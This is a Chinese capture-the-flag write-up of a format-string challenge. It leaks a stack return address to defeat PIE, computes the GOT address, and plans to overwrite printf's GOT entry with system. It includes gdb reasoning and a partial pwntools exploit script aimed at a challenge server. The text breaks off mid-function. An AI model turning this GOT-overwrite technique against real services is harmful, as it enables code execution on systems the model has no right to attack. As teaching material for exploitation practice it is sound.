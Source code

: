 这道题目的基本流程是：通过%p泄露返回地址从而确定PIE偏移，确定PIE偏移之后就可以确定got表地址，找到`printf`函数got表地址并利用%n将其存入的`printf`函数真实地址覆写为`system`函数真实地址，这样传入参数执行`printf(format)`就变成`system(format)`了。
先简单checksec一下：
```
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
1. 确定PIE地址偏移。
我们先输几个%p，并利用gdb调试看看栈上到底是什么情况。先构造payload:`aaaaaaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p`。
看到输出：
`@@@@@@@@-0x1-0x1-0x7ffff7ea1887-0x12-(nil)-0x7ffff7d8a740-0x7fffffffd950-0x4040404040404040-0x252d70252d70252d-0x2d70252d70252d70`。前面一串`@`是变换后的`a`，后面的是泄露的栈上的内容么？不完全是，在64位系统中，前6个参数的传参依靠寄存器进行，因此前面的%p泄露的是寄存器上的内容，寄存器传参顺序分别为`rdi,rsi,rdx,rcx,r8,r9`,其中`rdi`用来传递格式化字符串本身(也就是format)，那么输出的前五个应当是`rsi,rdx,rcx,r8,r9`寄存器内容，我们gdb调试将断点下在`b printf`，然后查看寄存器内容`info registers`，果然和我们预期相同。顺便我们可以看看`rdi`这个地址所指向的内容`x/20gx $rdi`,可以看到这个地址的值就是`0x4040404040404040`，这是我们的第8个参数，那么第六第七呢，我们往前看看`x/20gx $rdi-16`,果然，`0x7ffff7d8a740 0x7fffffffd950`对应的是`rdi`所指向内容的往前前16个字节与往前8个字节。现在我们确定format存储的起始地址之后，就可以在栈空间找到对应的返回地址了，其对应的是第21个参数，我们可以直接用`%21$p`输出它，但是注意字符串变换，我们得输入`%zi%p`。在gdb调试中发现输出的后三位是523，对应的正是io函数的返回地址(也即`call io`的下一条指令jmp)，我们预测是正确的。这样我们利用泄露的地址与ida中的地址相减就得到PIE的偏移，再加上ida中`printf`的got表地址就得到其真实got表地址。
```py
io=remote('124.16.75.162',31043)
#io=process('./vuln')
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
puts_got = elf.got['puts']
printf_got = elf.got['printf']
print(hex(libc.sym['system']),hex(libc.sym['printf']))
system_libc=0x52290
printf_libc=0x61c90
io.recvuntil(b'>')
io.sendline(b'p')
io.recvuntil(b'>')
io.sendline(b'%zi$p')  
#21 用于泄露栈上返回地址，call io指令的下一条是jmp，后三位都是523，泄露出来结果对的上，可以确定PIE导致的偏移从而确定got表地址。此外测试结果显示format的首地址在%8p处，其实我有点奇怪，五个寄存器(rdi存储格式化字符串参数)，偏移量应该是6，rdi本身也是指向这个位置，但是似乎把rdi指向的这个位置前面两个地址也包括进去了，导致偏移量为5+2=7，因此format首个地址在8，再根据栈空间确定返回地址在21处。
jump_text_addr=0x1523
io.recvline()
jump_real_addr=int(io.recv()[0:14].decode(),16)
base_addr=jump_real_addr-jump_text_addr
printf_real_got=base_addr+printf_got  
```
2. 覆写got表中printf函数真实地址
首先我们可以利用%s读出got表地址内容，也就是`prinrf`的真实地址，首先前面8位是我们的format内容，所以相应的我们地址写在`%9$p`。
```py
change_printf_real_got=reverse_transform_integer(printf_real_got)
io.sendline(b'aaaa%q$s'+p64(change_printf_real_got))
io.recvline()
printf_real_addr=u64(io.recv()[4:10].ljust(8,b'\x00'))
#print(hex(printf_real_addr))
```
这里的`reverse_transform_integer`是用来逆变换的：
```py
def reverse_transform_integer(input_value):
    # 替换表
    table1 = '@6Cdefgh1jk1mn0p9rstuvw*y2'
    table2 = '4BcDEFGHIJKLMNOPQRSTVUWXYZ'
    table3 = 'OiZ3A5b78q'

    original_bytes = []
```